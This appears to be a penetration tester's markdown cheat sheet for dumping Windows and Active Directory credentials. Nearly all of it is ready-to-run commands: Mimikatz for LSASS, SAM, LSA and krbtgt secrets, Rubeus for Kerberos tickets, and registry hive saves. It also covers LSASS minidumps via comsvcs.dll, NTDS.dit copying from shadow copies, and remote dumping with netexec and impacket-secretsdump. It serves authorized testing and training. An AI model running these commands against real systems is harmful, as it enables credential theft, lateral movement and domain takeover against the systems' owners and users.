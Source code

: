 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Impacket
  - Kerberos
  - LSASS
  - Lateral-Movement
  - Mimikatz
  - Privilege-Escalation
  - Rubeus
  - AD
---
```

## Locally
---
### **Mimikatz**

**Dump all**
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```
Output to file with log
```powershell
.\mimikatz.exe "log C:\path\to\mimikatz.log" "privilege::debug" "sekurlsa::logonpasswords" "log" "exit"
```
Output to file with redirection
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > C:\path\to\mimi-output.txt
```
**Dump SAM** (Local passwords)
```powershell
.\mimikatz.exe "privilege::debug" "lsadump::sam /patchlsadsu" exit
```
**Dump LSA** (DC)
```powershell
.\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit
```
**Target krbtgt** (for golden ticket generation)
```powershell
.\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt" exit
```
### **Rubeus**
#### Kerberos Tickets
List cached tickets
- Non elevated: List current users
- Elevated: List everyones
```shell
Rubeus.exe triage
```
Specify service
```
Rubeus.exe triage /service:ldap
```
Dump tickets
- Non elevated: dump current users
```shell
Rubeus.exe dump
```
Dump all tickets by targeting krbtgt (Elevated)
```powershell
Rubeus.exe dump /service:krbtgt
```
### Alternative Methods
**Save SAM and SYSTEM/SECURITY, extract locally**
!!! alert "note"
	we will only need hklm\sam & hklm\system, but hklm\security can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts
```powershell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
Dump locally
```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```
**Dump lsass with task manager**
!!! alert "GUI access required"
`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file` **A file called `lsass.DMP` is created and saved in:

```plaintext
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

**Rundll32.exe & Comsvcs.dll Method**
!!! alert "Will absolutely be flagged by AV/EDR"
**Get lsass PID**
```cmd
tasklist /svc
```
```powershell
Get-Process lsass
```
Create dumpfile with rundll32
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

!!! alert "With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`)."
**Use Pypykatz to Extract Credentials (on attack box)**
```bash
pypykatz lsa minidump lsass.dmp 
```
#### NTDS.dit Dumping
(Need DA or local admin on DC)
**Shadow Copy** 
```cmd
vssadmin CREATE SHADOW /For=C:
```
Copying NTDS.dit from the VSS
```bat
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Dump locally
```bash
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
## Remotely
---
### netexec
**LSA** (local admin required)
```bash
nxc smb 10.129.42.198 -u '' -p '' --local-auth --lsa
```
**SAM** (local admin required)
```bash
nxc smb 10.129.42.198 -u '' -p '' --local-auth --sam
```
**NTDS** (DA or local admin on DC required)
```bash
nxc smb 10.129.201.57 -u '' -p '' --ntds
```
#### impacket
Dump everything (local admin required)
```bash
impacket-secretsdump 'domain.local'/'<user>':'<pass>'@'IP' -dc-ip <DCIP>
```
